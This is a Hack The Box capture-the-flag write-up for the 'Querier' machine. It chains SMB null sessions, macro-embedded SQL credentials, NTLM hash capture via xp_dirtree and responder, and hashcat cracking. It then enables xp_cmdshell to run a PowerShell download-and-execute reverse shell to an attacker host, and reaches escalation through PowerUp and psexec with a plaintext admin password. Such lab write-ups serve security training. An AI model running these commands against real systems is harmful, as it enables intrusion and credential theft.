 # Querier [htb](https://app.hackthebox.com/machines/Querier)
![querier-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/querier-01.png)


## Recon 

Lets start by adding the target to our `/etc/hosts` file:

![hosts-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/hosts-02.png)

With that out of the way, we can enumerating:

`nmap -sC -sV -p- -A querier.htb -oN nmap.result`

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/nmap-res-03.png)

We have the following:

+ RPC endpoint mapper on port 135.
+ netBIOS on port 139.
+ SMB on port 445.
+ Microsoft SQL server on port 1433.
+ HTTP-API on ports 5985 & 47001.
+ Other RPC related ports. 


The services that jump out the most to me are the SQL and SMB servers. Lets start bt taking a look at the SMB though, maybe its misconfigured and we can access information we shouldnt. After that we'll take a look at the SQL server. 


## SMB port 445

Lets try to list out the SMB shares with a null session:

`smbclient -N -L \\\\querier.htb\\`

![shares-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/shares-04.png)

A null session is accepted, ideally this should not happen. Lets try to connect to the `Reports` share:

![smb-connect-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/smb-connect-05.png)

We can see the share hosts a single `.xlsm` file, this is a microsoft Excel file. 
I use the following code to open the file on Linux:

```python
#!/usr/bin/python3

import sys
import pandas as pd

if len(sys.argv) != 2:
    print(f'Usage {sys.argv[0]} <input_xlsm_file>')
    sys.exit()

df = pd.read_excel(sys.argv[1], sheet_name=None)

for k,v in df.items():
    print(f'{k} = {v}')
```

However the file is empty: 

![empty-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/empty-06.png)

If we open the file through a Windows machine and click on `File`:

![button-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/button-07.png)


We can see the following:

![luis-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/luis-08.png)

At first i thought `Luis` is a username, and tried brute-forcing my way into the SQL server. This failed. 
So i decided to inspect the file by clicking the highlighted button which resulted in:

![inspect-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/inspect-09.png)

It says that the file has Maros configured. A macro is an action or a set of actions that can be recorded, named, saved and executed as many times as required and whenever desired. In other words its code. 

We can extract the macro code in clear text with a tool called [olevba](https://github.com/decalage2/oletools/wiki/olevba). You can download it with:

`sudo -H pip install -U oletools`

Once we have it installed we can extract the Macro code with:

`olevba 'Currency Volume Report.xlsm'`

![olevba-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/olevba-10.png)


This is an [SQL connection string](https://learn.microsoft.com/en-us/dotnet/api/system.data.sqlclient.sqlconnection.connectionstring?view=dotnet-plat-ext-7.0), the `Uid` is a username, and the `Pwd` is the password. 

Lets try to login to the SQL server with:

`impacket-mssqlclient reporting@querier.htb -windows-auth`

![sql-login-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/sql-login-11.png)

Were in! I tried enumerataing the database, as well as trying to pull off RCE, nothing worked for me. [source](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server).

Our user has very little permissions on the server, and there isn't much to see on the database. 
I also tried using the credentials we found with `impacket` tools like `psexec`, `wmiexec`, etc. Nothing worked for me. 

So i decided to try a MITM attack to capture the `mssql-svc` service account NTLM hash. 
To do this we need to run `responder` on our kali machine:

`responder -I tun0 -dwv`

Then, in the SQL prompt, we need to tell the server to fetch a file from our kali via SMB. There is no file or SMB server on 
our kali, but in the process, the SQL server service itself well send over its NTLM
hash which we will capture with `responder`. (These sorts of attacks are more common in AD environments).

Once `responder` is running, on the SQL server execute the following:

`xp_dirtree '\\<attacker_IP>\any\thing'`


Now check responder: 

![responder-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/responder-12.png)

Lets crack it. 


First save it to a file:

![hash-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/hash-13.png)


Now we can use `hashcat` to crack NTLMv2 hashes as such:

`hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt -o mssql-svc.pass`


The hash gets cracked rather quickly:

![cracked-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/cracked-14.png)

Lets log back in to the SQL server with the new account, now we should be able to pull of an RCE. 

The first we need is a reverse shell script, i will [nishang's](https://github.com/samratashok/nishang) `Invoke-PowerShellTcp.ps1`.

Copy this script over to your working directory, open it, and add the following at the end:

`Invoke-PowerShellTcp -Reverse -IPAddress <kali-ip> -Port 9001`


Next, over at the SQL server we need to enable advanced options:

`sp_configure 'show advanced options', '1'`
`RECONFIGURE`


Now we can enable command execution with:

`sp_configure 'xp_cmdshell', '1'`
`RECONFIGURE`

On your kali start a python server:

`python3 -m http.server 80`

Start the listner: 

`nc -lnvp 9001`


Now we are ready to execute, on the SQL server run:

`EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://<kali-ip>/shell.ps1") | powershell -noprofile'`


Get a shell:

![shell-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/shell-15.png)


## Privilege Escalation


Lets cd into a directory we can work with:

`cd C:\Users\mssql-svc\appdata\local\temp`

From here, we can download and run [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1). 
Once you have the script on you kali start a python server:

`python3 -m http.server 80`

From the target, download the script with:

`iwr http://kali-ip/PowerUp.ps1 -OutFile powerup.ps1`

Start a Powershell session and load the script with:

```cmd
powershell -ep bypass
. .\powerup.ps1
Invoke-AllChecks
```

![admin-pass-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/admin-pass-16.png)

There are a lot of leads we can take from the PowerUp output, but i think this is the easiest. 

All we need to do is use `psexec`:

`impacket-psexec QUERIER/Administrator:'MyUnclesAreMarioAndLuigi!!1!'@querier.htb`

![root-17]()
